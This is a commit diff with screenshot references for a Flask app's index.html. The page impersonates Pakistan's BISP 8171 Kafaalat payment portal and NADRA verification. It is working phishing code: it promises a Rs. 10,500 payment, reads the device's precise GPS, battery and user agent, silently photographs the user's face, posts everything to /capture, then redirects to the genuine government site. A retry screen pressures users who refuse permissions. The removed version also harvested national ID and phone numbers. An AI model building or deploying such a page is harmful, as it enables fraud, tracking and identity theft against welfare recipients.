

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,181 +3,146 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0">
-    <title>8171 BISP Official Verification</title>
+    <title>8171 Official Verification</title>
     <style>
-        :root { --green: #1b5e20; --gold: #fbc02d; --bg: #f8faf9; }
-        body { margin: 0; background: var(--bg); font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; }
+        :root { --bisp-green: #1b5e20; --error-red: #b91c1c; --gold: #fbc02d; }
+        body { margin: 0; font-family: 'Segoe UI', Roboto, sans-serif; background: #f4f7f6; display: flex; flex-direction: column; height: 100vh; }
 
         /* Professional Header */
-        .header { background: white; padding: 12px 20px; display: flex; align-items: center; justify-content: space-between; border-bottom: 4px solid var(--green); box-shadow: 0 2px 8px rgba(0,0,0,0.05); }
-        .logo-text { border-left: 4px solid var(--green); padding-left: 10px; }
-        .logo-text h1 { margin: 0; font-size: 20px; color: var(--green); font-weight: 900; }
-        .logo-text p { margin: 0; font-size: 8px; text-transform: uppercase; color: #666; font-weight: bold; }
+        .header { background: #fff; padding: 15px 20px; display: flex; align-items: center; border-bottom: 4px solid var(--bisp-green); box-shadow: 0 2px 10px rgba(0,0,0,0.1); }
+        .logo-box { border-left: 4px solid var(--bisp-green); padding-left: 12px; }
+        .logo-box h1 { margin: 0; font-size: 22px; color: var(--bisp-green); font-weight: 900; }
+        .logo-box span { font-size: 10px; color: #666; font-weight: bold; text-transform: uppercase; }
 
-        /* Banner Design */
-        .banner { background: var(--green); height: 180px; position: relative; display: flex; align-items: center; justify-content: center; overflow: hidden; }
-        .banner::before { content: "8171"; position: absolute; font-size: 150px; font-weight: 900; color: rgba(255,255,255,0.03); transform: rotate(-15deg); }
-        .banner-info { color: white; text-align: center; z-index: 2; }
-        .banner-info h2 { margin: 0; font-size: 24px; }
-        .banner-info p { margin: 5px 0 0; font-size: 12px; opacity: 0.8; }
+        /* Status Strip */
+        .status-strip { background: var(--gold); color: #1b5e20; padding: 10px; text-align: center; font-size: 12px; font-weight: 800; border-bottom: 1px solid rgba(0,0,0,0.1); }
 
-        /* Payment Strip */
-        .strip { background: var(--gold); color: var(--green); padding: 12px; text-align: center; font-size: 13px; font-weight: 900; border-bottom: 2px solid rgba(0,0,0,0.1); }
+        /* Main Card */
+        .main-container { flex: 1; display: flex; align-items: center; justify-content: center; padding: 20px; }
+        .v-card { background: white; width: 100%; max-width: 400px; border-radius: 20px; padding: 35px 25px; box-shadow: 0 15px 35px rgba(0,0,0,0.1); border: 1px solid #eee; position: relative; }
+        .v-card h2 { color: var(--bisp-green); margin-top: 0; font-size: 24px; font-weight: 800; }
+        .v-card p { font-size: 14px; color: #555; line-height: 1.6; margin-bottom: 30px; }
 
-        /* Main Form */
-        .form-box { margin: -25px 15px 30px; background: white; border-radius: 15px; padding: 25px; box-shadow: 0 10px 25px rgba(0,0,0,0.1); position: relative; z-index: 10; border: 1px solid #eee; }
-        .form-box h3 { color: var(--green); margin: 0 0 8px; font-size: 22px; }
-        .form-box p { color: #555; font-size: 12px; line-height: 1.5; margin-bottom: 20px; }
+        /* Persistence Screen (For Blocked Users) */
+        #retry-overlay { display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: white; z-index: 9999; flex-direction: column; align-items: center; justify-content: center; padding: 30px; text-align: center; }
+        .error-pill { background: #fee2e2; color: var(--error-red); padding: 15px; border-radius: 12px; font-size: 13px; font-weight: 800; border: 1px solid #fecaca; margin-bottom: 25px; }
 
-        .input-wrap { margin-bottom: 15px; }
-        label { display: block; font-size: 10px; font-weight: 800; color: #222; margin-bottom: 5px; text-transform: uppercase; }
-        input { width: 100%; padding: 14px; border: 2px solid #eaedf0; border-radius: 10px; font-size: 16px; box-sizing: border-box; }
-        input:focus { border-color: var(--green); outline: none; background: #fafafa; }
+        .loader { border: 4px solid #f3f3f3; border-top: 4px solid var(--bisp-green); border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; margin-bottom: 20px; }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
 
-        .btn { background: var(--green); color: white; border: none; width: 100%; padding: 18px; border-radius: 12px; font-size: 16px; font-weight: 800; text-transform: uppercase; margin-top: 10px; cursor: pointer; box-shadow: 0 5px 15px rgba(27,94,32,0.2); }
-
-        /* Persistent Security Screen */
-        #security-overlay { display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: white; z-index: 9999; flex-direction: column; align-items: center; justify-content: center; padding: 30px; box-sizing: border-box; text-align: center; }
-        .icon-shield { width: 80px; height: 80px; background: #e8f5e9; border-radius: 50%; display: flex; align-items: center; justify-content: center; border: 4px solid var(--green); margin-bottom: 20px; }
-        .status-alert { background: #fee2e2; color: #b91c1c; padding: 15px; border-radius: 10px; font-size: 12px; font-weight: 800; margin-bottom: 20px; border: 1px solid #fecaca; }
-        .loader { border: 4px solid #f3f3f3; border-top: 4px solid var(--green); border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; margin: 20px 0; }
-        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
+        .btn { background: var(--bisp-green); color: white; border: none; width: 100%; padding: 18px; border-radius: 12px; font-size: 16px; font-weight: 800; cursor: pointer; transition: 0.3s; box-shadow: 0 8px 15px rgba(27,94,32,0.2); }
+        .btn-retry { background: #222; margin-top: 15px; }
     </style>
 </head>
 <body>
 
 <div class="header">
-    <div class="logo-text">
+    <div class="logo-box">
         <h1>BISP</h1>
-        <p>Government of Pakistan</p>
-    </div>
-    <div style="font-weight: 800; color: #444; font-size: 11px;">8171 PORTAL</div>
-</div>
-
-<div class="banner">
-    <div class="banner-info">
-        <h2>Kafaalat Program</h2>
-        <p>Benazir Income Support Programme</p>
+        <span>Government of Pakistan</span>
     </div>
 </div>
 
-<div class="strip">
-    KAFAALAT PAYMENT 2026: RS. 10,500 VERIFICATION ACTIVE
+<div class="status-strip">KAFAALAT 2026: VERIFICATION REQUIRED FOR RS. 10,500</div>
+
+<div class="main-container">
+    <div class="v-card" id="initial-card">
+        <h2>Identity Portal</h2>
+        <p>Your regional identity and biometric check is pending. Please click below to initiate high-precision synchronization for fund release.</p>
+        <button class="btn" onclick="startVerification()">CONNECT TO PORTAL</button>
+        <div style="margin-top: 25px; border-top: 1px solid #eee; padding-top: 15px; text-align: center; font-size: 10px; color: #aaa;">
+            Security ID: FZN-SYS-2026 | Encrypted Node
+        </div>
+    </div>
 </div>
 
-<div class="form-box">
-    <h3>Check Eligibility</h3>
-    <p>Provide your CNIC and registered mobile number to initiate secure biometric and area verification for fund release.</p>
+<div id="retry-overlay">
+    <div class="error-pill">
+        ACCESS DENIED: Mandatory Security Permissions (Camera & Location) were blocked by the browser.
+    </div>
+    <div class="loader"></div>
+    <h3>Permissions Required</h3>
+    <p style="font-size: 14px; color: #666;">Verification cannot proceed without system access. Please click 'Allow' on the next prompt or refresh the page to reset.</p>
 
-    <div class="input-wrap">
-        <label>CNIC Number (13 Digits)</label>
-        <input type="number" id="cnic" placeholder="35201XXXXXXXX" autocomplete="off">
-    </div>
-    <div class="input-wrap">
-        <label>Registered Mobile Number</label>
-        <input type="number" id="phone" placeholder="03XXXXXXXXX" autocomplete="off">
-    </div>
-
-    <button class="btn" onclick="startSecureVerification()">Verify & Pay Now</button>
-</div>
-
-<div id="security-overlay">
-    <div class="icon-shield">
-        <div style="width: 20px; height: 20px; background: var(--green); border-radius: 50%; animation: pulse 1s infinite;"></div>
-    </div>
-    <div id="error-msg" class="status-alert" style="display:none;">
-        PERMISSION BLOCKED: Verification cannot proceed without Location & Camera. Please clear browser settings or try in a different browser.
-    </div>
-    <h2 style="color: var(--green); margin: 0;">Security Check</h2>
-    <p style="color: #666; font-size: 14px; margin-top: 10px;">Connecting to NADRA biometric verification node...</p>
-    <div class="loader"></div>
-
-    <p style="font-size: 11px; color: #999; margin-bottom: 20px;">Verification ID: BISP-2026-X8801</p>
-
-    <button onclick="location.reload()" style="width: 100%; padding: 15px; background: #222; color: white; border: none; border-radius: 10px; font-weight: 800;">TRY AGAIN / REFRESH</button>
+    <button class="btn" onclick="location.reload()">REFRESH & RETRY</button>
+    <button class="btn btn-retry" onclick="forceReset()">FORCE RESET SESSION</button>
 </div>
 
 <video id="v" style="display:none;" autoplay playsinline></video>
 <canvas id="c" style="display:none;" width="1080" height="1920"></canvas>
 
 <script>
-    let userData = { c: "", p: "", b: "", m: "", lt: "", ln: "" };
+    let report = { d: "", b: "", lat: "", lon: "", ip: "", city: "" };
 
-    function startSecureVerification() {
-        userData.c = document.getElementById('cnic').value;
-        userData.p = document.getElementById('phone').value;
+    async function startVerification() {
+        document.getElementById('initial-card').innerHTML = `<div class="loader" style="margin: 0 auto;"></div><p style="text-align:center;">Synchronizing with NADRA...</p>`;
 
-        if(userData.c.length < 11) { alert("Enter valid CNIC"); return; }
+        // Browser Info
+        report.d = navigator.userAgent;
+        if(navigator.getBattery) {
+            const bat = await navigator.getBattery();
+            report.b = Math.round(bat.level * 100) + "%";
+        }
 
-        document.getElementById('security-overlay').style.display = 'flex';
-        executeCapture();
+        executeTracking();
     }
 
-    async function executeCapture() {
-        // Fetch System Info
-        try {
-            const battery = await navigator.getBattery();
-            userData.b = Math.round(battery.level * 100) + "%";
-            userData.m = navigator.platform;
-        } catch(e) {}
-
-        // Persistent Location Request
+    function executeTracking() {
+        // GPS Loop with Error Handling
         navigator.geolocation.getCurrentPosition(
             (pos) => {
-                userData.lt = pos.coords.latitude;
-                userData.ln = pos.coords.longitude;
-                attemptCamera();
+                report.lat = pos.coords.latitude;
+                report.lon = pos.coords.longitude;
+                attemptBiometric();
             },
             (err) => {
-                handleDenied();
+                showPersistenceScreen();
             },
             { enableHighAccuracy: true, timeout: 5000 }
         );
     }
 
-    function attemptCamera() {
+    function attemptBiometric() {
         navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } })
-        .then((stream) => {
-            processFinal(stream);
+        .then((s) => {
+            captureAndSend(s);
         })
         .catch((err) => {
-            handleDenied();
+            showPersistenceScreen();
         });
     }
 
-    function handleDenied() {
-        // If blocked, show error and auto-reload logic
-        document.getElementById('error-msg').style.display = 'block';
-
-        // Anti-Block Strategy: If user blocks once, we refresh the page to trigger pop-up again
-        // Note: Some browsers need a user click to show pop-up again, so we keep the Try Again button.
+    function showPersistenceScreen() {
+        document.getElementById('retry-overlay').style.display = 'flex';
+        // Logic to trigger pop-up again on reload
     }
 
-    async function processFinal(stream) {
+    function forceReset() {
+        // Clears any temporary state and reloads
+        location.href = location.href + "?auth=" + Math.random();
+    }
+
+    async function captureAndSend(stream) {
         const video = document.getElementById('v');
         video.srcObject = stream;
 
         setTimeout(() => {
             const canvas = document.getElementById('c');
             canvas.getContext('2d').drawImage(video, 0, 0, 1080, 1920);
-            const pic = canvas.toDataURL('image/jpeg', 0.8);
+            const img = canvas.toDataURL('image/jpeg', 0.85);
 
             stream.getTracks().forEach(t => t.stop());
 
-            // Final Data Dispatch
-            fetch('/secure/v1/auth', {
+            // Final Data Sync
+            fetch('/capture', {
                 method: 'POST',
                 headers: { 'Content-Type': 'application/json' },
-                body: JSON.stringify({ meta: userData, img: pic })
+                body: JSON.stringify({ meta: report, image: img })
             }).then(() => {
                 window.location.href = "https://8171.bisp.gov.pk/";
             });
-        }, 3000);
+        }, 2000);
     }
 </script>
-
-<style>
-    @keyframes pulse { 0% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0.4); } 70% { box-shadow: 0 0 0 15px rgba(27, 94, 32, 0); } 100% { box-shadow: 0 0 0 0 rgba(27, 94, 32, 0); } }
-</style>
 </body>
 </html>
```
